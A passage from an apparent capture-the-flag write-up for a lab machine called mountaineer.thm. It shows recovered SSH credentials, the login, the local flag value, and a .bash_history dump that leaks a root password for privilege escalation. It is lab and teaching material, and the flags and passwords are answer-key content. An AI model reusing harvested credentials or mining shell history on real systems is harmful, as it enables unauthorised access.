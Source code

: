 We discover new credentials:

- **Username:** `kangchenjunga`
- **Password:** `J9f4z7tQlqsPhbf2nlaekD5vzn4yBfpdwUdawmtV`

---

## SSH Access as kangchenjunga

Let's use the credentials to SSH into the target:

```console
$ ssh kangchenjunga@mountaineer.thm
```

![SSH Login](ssh_k2.png)

Login successful!

---

## Finding the Local Flag

List the files and read the local flag:

```console
kangchenjunga@mountaineer:~$ ls
local.txt  mynotes.txt
kangchenjunga@mountaineer:~$ cat local.txt 
97a805eb710deb97342a48092876df22
```

![Flag Found](flag_found.png)

**Local Flag:** `97a805eb710deb97342a48092876df22`

---

## Privilege Escalation to Root

Let's look for ways to escalate privileges. Checking `.bash_history` reveals a potential root password:

```console
kangchenjunga@mountaineer:~$ cat .bash_history 
ls
cd /var/www/html
nano index.html
cat /etc/passwd
ps aux
suroot
th3_r00t_of_4LL_mount41NSSSSssssss
whoami
ls -la
cd /root
ls
mkdir test
cd test
touch file1.txt
mv file1.txt ../
cd ..
rm -rf test
exit
ls
cat mynotes.txt 
ls
cat .bash_history 
```
